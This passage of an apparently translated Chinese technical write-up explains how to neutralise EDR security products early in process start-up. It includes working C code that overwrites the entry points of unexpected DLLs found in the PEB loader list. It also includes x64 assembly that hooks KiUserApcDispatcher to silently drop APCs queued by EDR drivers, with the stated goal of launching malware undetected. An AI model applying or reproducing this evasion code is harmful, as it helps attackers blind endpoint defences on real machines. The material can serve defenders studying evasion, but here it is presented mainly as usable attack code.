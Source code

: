 注意：当我们触发回调时，kernelbase.dll 没有完全加载，并且触发发生在 LdrLoadDll 内部，因此仍然获取加载程序锁。尚未加载的 Kernelbase 意味着我们只能调用 ntdll 函数，并且加载程序锁会阻止我们启动任何线程或进程，以及加载 DLL。

由于我们能做的事情受到高度限制，因此最简单的操作方案是阻止加载 EDR DLL，然后等到进程完全初始化后再启动恶意软件。

为了确保我测试的 EDR 得到适当的中和，我采取了多管齐下的方法。

### DLL 破坏

在流程生命周期的早期，只应加载 ntdll.dll、kernel32.dll 和 kernelbase.dll。某些 EDR 可能会抢先将其 DLL 映射到内存中，但要等到稍后再调用入口点。虽然我们可以通过调用 ntdll !LdrUnloadDll () 来卸载这些 DLL 一旦加载程序锁被释放（或手动执行），一个快速而肮脏的解决方案就是破坏它们的入口点。

我们要做的是遍历 LDR 模块列表，并替换任何不应该存在的 DLL 的入口点地址。

```plain
DWORD EdrParadise() {
    // we'll replaced the EDR entrypoint with this equally useful function
    // todo: stop malware

    return ERROR_TOO_MANY_SECRETS;
}

void DisablePreloadedEdrModules() {
    PEB* peb = NtCurrentTeb()->ProcessEnvironmentBlock;
    LIST_ENTRY* list_head = &peb->Ldr->InMemoryOrderModuleList;
    LIST_ENTRY* list_entry = list_head->Flink->Flink;

    while (list_entry != list_head) {
        PLDR_DATA_TABLE_ENTRY2 module_entry = CONTAINING_RECORD(list_entry, LDR_DATA_TABLE_ENTRY2, InMemoryOrderLinks);

        // only the below DLLs should be loaded this early, anything else is probably a security product
        if (SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"ntdll.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernel32.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernelbase.dll") != 0) {

            module_entry->EntryPoint = &EdrParadise;
        }

        list_entry = list_entry->Flink;
    }
}
```

### 禁用 APC 调度程序

当 APCs 排队到线程时，它们会被 ntdll !KiUserApcDispatcher () 处理，然后调用 ntdll!NtContinue () 将线程返回到其原始上下文。通过挂钩 KiUserApcDispatcher 并将其替换为我们自己的函数，该函数仅在循环中调用 NtContinue ()，任何 APC 都不能排队到我们的进程中（包括来自 EDR 内核驱动程序的 APC）。

```plain
; simple APC dispatcher that does everything except dispatch APCs
KiUserApcDispatcher PROC
  _loop:
    call GetNtContinue
    mov rcx, rsp
    mov rdx, 1
    call rax
    jmp _loop
  ret
KiUserApcDispatcher ENDP
```
